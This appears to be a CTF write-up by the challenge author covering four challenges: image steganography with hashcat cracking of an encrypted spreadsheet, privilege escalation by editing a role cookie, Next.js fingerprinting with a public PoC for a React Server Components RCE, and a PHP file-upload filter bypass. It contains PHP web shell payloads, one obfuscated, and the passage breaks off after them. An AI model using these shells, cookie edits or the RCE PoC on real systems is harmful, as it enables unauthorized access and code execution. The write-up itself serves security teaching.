## Introduction

This is the full write-up of the challenge for 0422, r2s, Simple Hack and I use arch btw. This involves the topic:

- Steganography
- Cryptography
- Hashing
- Insecure Direct Object Reference (IDOR)
- Broken Authentication
- Insecure cookie handling
- Footprinting
- CVE Exploit PoC
- File upload restrictions
- PHP Heredoc

| Challenge | Category | Difficulty | Description |
| :--- | :---: | :---: | :--- |
| r2s | Web | Easy | Penetration testing |
| 0422 | Web | Bady | Authentication |
| Simple Hack | Web | Insane | File Upload restrictions |
| I use arch btw | Forensics | Easy | Steganography and hashing |

### Source code

For the source code of the challenge, please visit my GitHub.

>https://github.com/UmmItKin/THJCC-Chals

## I use arch btw

This is a multi-stage challenge involving steganography, file extraction, hash cracking, and password-protected document extraction. Here's the detailed step-by-step approach:

**Challenge Description:** Can you find the hidden message in the provided JPEG image file?

>Author: UmmIt Kin


### File Analysis

Before diving into extraction, let's understand what we're working with, using `file` command:

```shell
file "THJCC_I use arch btw.jpg"
```

Output

```
THJCC_I use arch btw.jpg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, baseline, precision 8, 569x607, components 3
```

This confirms we have a standard JPEG file. Next, we do a binary analysis with the `strings` command:

```shell
strings "THJCC_I use arch btw.jpg"
```

Output

```
-e,5
H[#M;at
KK{F
}/B;
....
9"H(
"@-y
;({0
-<0nD|y
=_s#
\$}-G
Nkox&
readme.xlsxUT
biux
```

Take a look at the end of this file. We can see we have a `readme.xlsx` file, which confirms there is a hidden file inside this image.

#### Extract hidden files

Binwalk is a forensics tool used to search binary images for embedded files and executable code. JPEG files can contain hidden data in their metadata or appended after the image data.


```shell
binwalk -e "THJCC_I use arch btw.jpg"
```

#### XLSX File

Navigate to the extraction directory and examine what was extracted:

You should find one file!!! The file `readme.xlsx`. xlsx is a Microsoft Excel file.


##### That file are encrypted

However, looking at the file command output, you can see that this file is encrypted:

```
readme.xlsx: CDFV2 Encrypted
```


### Hashed Value

Our mission at this point is to extract the hash from this file type and crack it. One of the most popular tools is `john`, a password cracker. You can use `office2john`, one of John's utilities, to extract the hash value!

#### Extract Password Hash from XLSX

The `office2john` tool (from the John the Ripper suite) converts Microsoft Office document hashes into a format that password cracking tools like hashcat can understand:

```shell
❯ office2john readme.xlsx
readme.xlsx:$office$*2007*20*128*16*8c78445e54b41f53ff8696023f465f38*17f96a28c8b4501b5a054b1ff55c5f13*2ff3b41a3016bd9284011bfd287343ab1e48e56e
```

#### Wordlist Finding

Before we perform hash cracking, you need to find a wordlist.

For this challenge, the password is quite common and can be found in standard wordlists. I didn't make it too complex. The password is actually inside SecLists or rockyou.

For Blackarch users, install it via the command below. If not, you can clone the repository here:

>https://github.com/danielmiessler/SecLists

```shell
sudo pacman blackarch/seclists
```

#### Cracking with Hashcat

Now we perform a dictionary attack using hashcat:

Your hash value should look like this:

```shell
$office$*2007*20*128*16*8c78445e54b41f53ff8696023f465f38*17f96a28c8b4501b5a054b1ff55c5f13*2ff3b41a3016bd9284011bfd287343ab1e48e56e
```

and launch the attack:

```bash
hashcat -a 0 readme_hash /usr/share/wordlists/seclists/Passwords/WiFi-WPA/probable-v2-wpa-top447.txt
```


Now see the result here:

```shell
hashcat -a 0 readme_hash --show
```


Password is `rush2112` Now you can open it.


##### Flag

This is the flag for this challenge:

`THJCC{7h15_15_7h3_m3554g3....._1_u53_4rch_b7w}`

---

## 0422

**Challenge Description:**

A very simple challenge about a web exploit.

Really simple. LOL.

>Author: UmmIt Kin

This is a web exploitation challenge involving cookie manipulation and access control.



### Testing the Application

Start by visiting the application dashboard. You'll be presented with a login panel:



Attempt to login with any username and password combination. The credentials themselves don't matter for this challenge. What matters is what happens after authentication.

#### Login Attempt

After submitting the login form with test credentials, you'll receive an error response:



This is expected. The server rejects the invalid credentials, but the important thing is what the server sends back in the response headers.

#### Opening Developer Tools

Open Developer Tools with these steps:

- Press F12
- Click on the "Storage" tab (or "Application" in Chrome)
- In the left sidebar, click "Cookies"
- Select the domain: `https://chal.thjcc.org:3000`

#### Identifying the Vulnerability

Let try one more time to send the login, and you'll see important cookie values:

```
Referer: http://chal.thjcc.org:3000/dashboard
Cookie: PHPSESSID=6cfc69646050e9e5a4f613e6cbacac06; role=guest; username=wae
```

Notice the `role=guest` cookie. This is the vulnerability!

#### Modifying the Role Cookie

Find the cookie named `role` with the current value `guest`. Double-click on the `role` cookie's value field and change it from `guest` to `admin`:



#### End this Game !!

Now Refresh the page. The server will now trust the modified cookie and grant you admin privileges.

The flag displayed on the admin dashboard is:

`THJCC{c00k135_4r3_n07_53cur3_1f_n07_51gn3d_4nd_p13453_d0_7h3_53cur3_c0d1ng_r3v13w_101111}`



---

## r2s

**Challenge Description:**

Should I upgrade my web server?

I'm too lazy. nvm, lol.

It should be safe enough?

>Author: UmmIt Kin

This challenge involves a simple penetration testing methodology. All you need to do is perform basic footprinting on this server and find the PoC exploit and RCE.



### CTFd token

Since we're running an instance of this challenge, each user needs to generate a token to solve it. Go to the CTF website profile page at `https://ctf2026.thjcc.org/settings`, generate a token, and enter it on the r2s instance page.




### Testing the Application

Looking at the page, we see a login panel:



#### First try to login

Let's randomly enter something. As expected, it's not that easy. We receive an `Invalid username or password` message:



#### Confirming Next.js

Let's use F12 to check. Every website has its unique code signatures, and this one is no exception:

```shell
src="/_next/static/chunks/webpack-1b7be808ceb885ba.js"
```



We can clearly see this is using Next.js. However, the version is still uncertain. Let's perform deep footprinting to identify it:

#### Confirming Next.js Version

For Next.js, we can use the following method to manually determine the version. You can search the keyword `version` in each `.js` file:

Go to: `F12` > `Debugger` > `Main Thread` `chal.thjcc.org:10454` `*.js`

You'll see many generated JavaScript files. Open each one and search for the `version` keyword!



We successfully found `window.next={version:"15.0.0",appDir:!0}`:



We also found `var cc=i.version;if("19.0.0-rc-65a56d0e-20241020`

However, regarding this version number... If you search for Next.js version releases online, there's no version 19. This is because Next.js is React-based. The `19.0.0-rc` is actually the React version, not the Next.js version.

##### Automatically Detect Version with cURL

Here's a script you can use to automatically detect React and Next.js versions:

```shell
CHAL="http://chal.thjcc.org:10454"; \
curl -sL "$CHAL" | grep -oP '/_next/static/[^"]+\.js' | xargs -I {} curl -sL "${CHAL}{}" | grep -oP '(?<=version:")[^"]+' | sort -u
```

#### Finding the CVE

Now that we've confirmed the versions, let's search for an available exploit. Are there any applicable CVEs?



We found one that works:

>https://nextjs.org/blog/CVE-2025-66478

>https://vercel.com/kb/bulletin/security-bulletin-cve-2025-55184-and-cve-2025-55183

As mentioned in the article, this is an RCE vulnerability!

>A critical vulnerability has been identified in the React Server Components (RSC) protocol. The issue is rated CVSS 10.0 and can allow remote code execution when processing attacker-controlled requests in unpatched environments.

#### Finding a Proof of Concept

Now let's find a working PoC. I'll use my own PoC:

https://github.com/UmmItKin/CVE-2025-55182-PoC

The usage is straightforward. Simply clone the repository and run `make` to use it:

```bash
git clone https://github.com/UmmItKin/CVE-2025-55182-PoC
cd CVE-2025-55182-PoC
make
```

Then, use this tool to RCE the machine. It's located in `/flag.txt`!



Flag: `THJCC{r34ct_ssr_rc3_1s_d4ng3r0us}`

---

## Simple Hack

**Challenge Description:**

We developed a file upload platform. I think it is really secure. Isn't it?

> Author: UmmIt Kin


This challenge is fundamentally about a **file upload system with many restrictions**. You need to find ways to bypass the filters under extremely tight constraints.

Thus, this challenge demonstrates a critical file upload vulnerability combined with inadequate input validation.

Solving this challenge requires a substantial level of expertise in web security and PHP manipulation. Let's proceed to understand how to bypass the restrictions.

### Website Interface

Start by looking at the interface of this website! we can see that it is a file upload service!


### PHP Confirmed

Like the r2s challenge, we should start by identifying the service and technology stack:

```shell
curl -I http://chal.thjcc.org:5222/
```

Output:
```
HTTP/1.1 200 OK
Host: chal.thjcc.org:5222
Date: Sun, 22 Feb 2026 19:12:10 GMT
Connection: close
X-Powered-By: PHP/8.2.30
Set-Cookie: PHPSESSID=b9f53041d0de80b5ace2db3f9c300af2; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-type: text/html; charset=UTF-8
```

We can see the server is running **PHP 8.2**!! This is important information.

#### File upload Vulnerability

Now the picture becomes clear!

>**PHP + File Upload** = **File Upload Vulnerability**

This is a classic **File Upload Vulnerability** scenario. If you're not familiar with file upload attacks, here's a quick overview:

File Upload Vulnerabilities occur when a web application allows users to upload files without properly validating them. Attackers can exploit this to upload malicious files that can lead to remote code execution, defacement, or server compromise.

##### Attempting Payloads

Now we know it's a file upload challenge with PHP. Let's try basic exploitation techniques:

Simple PHP Code Execution
```php
<?php system($_GET['cmd']); ?>
```

Result: **BLOCKED** - Message: "Detected potential hacking attempt!"

Using Variables
```php
<?php $x='sys'.'tem'; $x($_GET['cmd']); ?>
```

